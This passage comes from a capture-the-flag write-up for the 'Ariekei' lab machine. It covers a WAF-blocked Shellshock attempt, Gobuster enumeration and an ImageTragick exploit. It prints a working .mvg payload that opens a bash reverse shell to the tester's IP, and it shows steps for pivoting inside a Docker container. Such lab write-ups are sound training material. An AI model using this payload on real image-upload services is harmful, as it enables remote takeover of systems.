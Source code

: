```markdown
GATEWAY_INTERFACE=CGI/1.1
HTTP_UPGRADE_INSECURE_REQUESTS=1
SERVER_PROTOCOL=HTTP/1.0
HTTP_ACCEPT_ENCODING=gzip, deflate, br
REQUEST_METHOD=GET
\_=/usr/bin/env
```

The GNU bash version 4.2.37 is vulnerable to **Shellshock**, but after trying to exploit that vulnerability, the web server responses with an ASCII emoji face, which is probably the **WAF** that blocks it.
By fuzzing the Shellshock string, it will still get blocked and we are stuck, so lets analyze the subdomain _calvin.ariekei.htb_ that doesn't seem to be protected by the WAF.

### Enumerating the Subdomain

Searching for hidden directories with **Gobuster** on the _calvin.ariekei.htb_:
```markdown
gobuster -u https://calvin.ariekei.htb dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -s "200,204,301,302,307,403" -t 50
```

It finds the directory _/upload_ where it is possible to upload images:

![Upload page](https://kyuu-ji.github.io/htb-write-up/ariekei/ariekei_web-1.png)

In the HTML source is a comment that is ASCII art of a happy mask face and a sad mask face also known as _"Tragedy Mask"_.
This is a hint for a vulnerability that is called [ImageTragick](https://imagetragick.com/).

To exploit this, it is needed to upload a _.mvg_ file with the example exploit code. The _fill parameter_ in the **ImageMagick** library is vulnerable and will lead to code execution. There is a [Blog post from Cloudflare](https://blog.cloudflare.com/inside-imagetragick-the-real-payloads-being-used-to-hack-websites-2/) with different payloads.

Creating _exploit.mvg_:
```markdown
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|setsid /bin/bash -i >& /dev/tcp/10.10.14.10/443 0<&1 2>&1")'
pqop graphic-context
```

After uploading it, the listener on my IP and port 443 starts a reverse shell session as _root_ on _calvin.ariekei.htb_.

## Enumerating the Network

In the root (/) directory is a file called _.dockerenv_ which indicates that this is a **Docker container** from which pivoting to other machines is necessary.
Commands like `netstat`, `ss`, `ip` and `arp` are not on this container, but network connections can also be seen in the file _/proc/net/tcp_:
```markdown
sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode
   0: 0B00007F:A90C 00000000:0000 0A 00000000:00000000 00:00000000 00000000    0  0 18353 1 0000000000000000 100 0 0 10 0
   1: 00000000:1F90 00000000:0000 0A 00000000:00000001 00:00000000 00000000    0  0 18985 2 0000000000000000 100 0 0 10 0
   2: 0B0017AC:8B12 0A0E0A0A:01BB 01 00000002:00000000 01:0000001B 00000000    0  0 298817 3 0000000000000000 27 4 31 10 -1
   3: 0B0017AC:1F90 010017AC:A706 08 00000000:0000039F 00:00000000 00000000    0  0 0 1 0000000000000000 20 4 26 10 -1
   4: 0B0017AC:1F90 010017AC:A704 08 00000000:00000001 00:00000000 00000000    0  0 298813 1 0000000000000000 20 4 26 10 -1
```
